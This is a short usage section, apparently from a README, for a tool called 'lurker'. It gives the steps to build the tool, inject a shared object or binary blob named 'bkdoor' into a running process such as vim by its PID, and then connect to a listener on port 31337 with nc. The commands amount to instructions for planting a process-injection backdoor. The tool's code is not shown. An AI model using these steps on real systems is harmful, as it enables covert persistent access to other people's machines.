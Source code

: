 1. Run `make`.

2. start the target process, such as `vim`, by executing: `vim`.

3. In another terminal, execute: ./lurker \`pidof vim\` \`pwd\`/bkdoor_so.so OR ./lurker --b \`pidof vim\` bkdoor.o.bin to inject the code into the target process, such as `vim`.

4. Finally, you can run: `nc 127.0.0.1 31337`.


